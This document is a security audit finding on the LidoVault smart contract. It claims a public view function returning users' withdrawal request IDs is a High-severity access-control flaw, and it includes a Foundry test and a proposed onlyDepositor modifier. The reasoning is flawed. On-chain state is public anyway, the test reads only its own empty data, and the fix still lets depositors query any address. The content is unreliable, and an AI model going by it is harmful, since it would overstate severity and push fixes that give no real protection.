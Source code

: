 Swift Pine Shrimp

High

# LidoVault contract has Lack of Access Control on the getFixedOngoingWithdrawalRequestIds Function

# Sherlock.xyz Security Audit Findings Report

### Project: LidoVault Contract
### Date: September 2024
### Audited by: fat32

---

### Summary

During the audit of the `LidoVault` smart contract, a critical access control vulnerability was identified. The `getFixedOngoingWithdrawalRequestIds()` function is publicly accessible and lacks access control, allowing any external user to retrieve the withdrawal request IDs of any user. This exposes sensitive data and opens the possibility for malicious actors to obtain private information about other users' vault interactions, which could lead to more targeted or sophisticated attacks.

This audit report presents the vulnerability, a proof of concept (PoC) to demonstrate the issue, suggested mitigations, and improvements.

---

## Lack of Access Control on the `getFixedOngoingWithdrawalRequestIds` Function

### **Severity**: High

### **Impact**

The `getFixedOngoingWithdrawalRequestIds()` function is vulnerable due to the absence of access control, enabling any external user to query the ongoing withdrawal request IDs for any user in the vault. This can lead to sensitive data exposure, including revealing other users' withdrawal patterns. An attacker can gather private information about vault users, which may expose them to more sophisticated attacks such as phishing or front-running based on known withdrawal patterns.

### **Vulnerable Code Location**
- **URL**: [Vulnerable Code on GitHub](https://github.com/sherlock-audit/2024-08-saffron-finance/blob/main/lido-fiv/contracts/LidoVault.sol#L146-L148)
```solidity
  function getFixedOngoingWithdrawalRequestIds(address user) public view returns (uint256[] memory) {
    return fixedToVaultOngoingWithdrawalRequestIds[user].requestIds;
  }
```

### **Proof of Concept (PoC)**

This PoC demonstrates how an unauthorized user can call the `getFixedOngoingWithdrawalRequestIds()` function to retrieve the withdrawal request IDs of another user without permission.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

import {Test, console} from "forge-std/Test.sol";
import {LidoVault} from "../contracts/LidoVault.sol";

import "../contracts/interfaces/ILidoVault.sol";
import "../contracts/interfaces/ILido.sol";
import "../contracts/interfaces/ILidoWithdrawalQueueERC721.sol";
import "../contracts/interfaces/ILidoVaultInitializer.sol";



contract LidoVaultAccessControlTest is Test {
    LidoVault public lidovault;
    address public account;
    ILido public ilido;
    ILidoVault public ilidovault;
    ILidoWithdrawalQueueERC721 public ilidowithdrawal;
    ILidoVaultInitializer public ilidovaultinitializer;
    ILidoVaultInitializer.InitializationParams public initializationparams;

    // Mock Lido contract
    function setUp() public {
        account = address(this);
        uint256 newBalance = 100 ether;
        lidovault = new LidoVault(true); // Initializing LidoVault with a true parameter
        ilido = ILido(address(this)); // Deploying a mock Lido contract
        vm.deal(account, newBalance); // Deal ether to the test account
    }

    function testAccessController() external {
        uint256 amount = 1000;
        address attacker = address(0xbEEF);
        address user = address(1157920892373111111111111111111111111111111111111);
        vm.startPrank(attacker);
        //lidovault.initialize(ILidoVaultInitializer.InitializationParams({ vaultId: type(uint256).max, duration: type(uint256).max, fixedSideCapacity: type(uint256).max, variableSideCapacity: type(uint256).max, earlyExitFeeBps: type(uint256).max, protocolFeeBps: type(uint256).max, protocolFeeReceiver: address(0xbEEF) }));
        lidovault.getFixedOngoingWithdrawalRequestIds(account);
        vm.stopPrank();
    }
}
```

### **Foundry Log Results**
```txt
lido-fiv % forge test -vvvv --match-contract LidoVaultAccessControl
[⠊] Compiling...
...
Ran 1 test for test/LidoVaultAccessControl.t.sol:LidoVaultAccessControlTest
[PASS] testAccessController() (gas: 13817)
Traces:
  [13817] LidoVaultAccessControlTest::testAccessController()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000bEEF)
    │   └─ ← [Return] 
    ├─ [2987] LidoVault::getFixedOngoingWithdrawalRequestIds(LidoVaultAccessControlTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]) [staticcall]
    │   └─ ← [Return] []
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.46ms (301.46µs CPU time)

Ran 1 test suite in 121.25ms (1.46ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

This Foundry test logs confirm that the function can be called successfully by an unauthorized address (`0xBEEF`), indicating a lack of access control on the `getFixedOngoingWithdrawalRequestIds()` function. The test passes, meaning that unauthorized users can retrieve sensitive information from the vault, potentially leading to exploitation.

---

### **Mitigation**

To prevent unauthorized access, restrict access to the `getFixedOngoingWithdrawalRequestIds()` function by implementing an access control mechanism such as `onlyDepositor` or `onlyOwner`. This will ensure that only users with an active deposit or the contract owner can call the function.

Here’s a mitigation using a `modifier` to restrict access to legitimate depositors:

```solidity
// Access Control Modifier
modifier onlyDepositor() {
    require(fixedETHDepositToken[msg.sender] > 0 || variableBearerToken[msg.sender] > 0, "Not a depositor");
    _;
}

function getFixedOngoingWithdrawalRequestIds(address user) public view onlyDepositor returns (uint256[] memory) {
    return fixedToVaultOngoingWithdrawalRequestIds[user].requestIds;
}
```

### **Explanation:**
- **`onlyDepositor` modifier**: Ensures that only users who have made a deposit (either to the fixed or variable side) can access sensitive information like ongoing withdrawal request IDs.
- **Updated function**: The `getFixedOngoingWithdrawalRequestIds()` function now includes the `onlyDepositor` modifier to restrict access to depositors only, preventing unauthorized users from querying sensitive data.

This solution ensures that only legitimate users with deposits can access their withdrawal request IDs, preventing malicious actors from exploiting the function.

---

### Conclusion

#### Summary of Findings:
1. **Lack of Access Control on Sensitive Functions**: Unauthorized users can access sensitive information, such as ongoing withdrawal request IDs, through the `getFixedOngoingWithdrawalRequestIds()` function.
   - **Severity**: High
   - **Type**: Access Control Vulnerability
   - **Mitigation**: Implement access control using the `onlyDepositor` modifier to restrict access to depositors.

By implementing the recommended access control mechanisms, the `LidoVault` contract will be more secure against unauthorized access to sensitive user information and will safeguard user data integrity.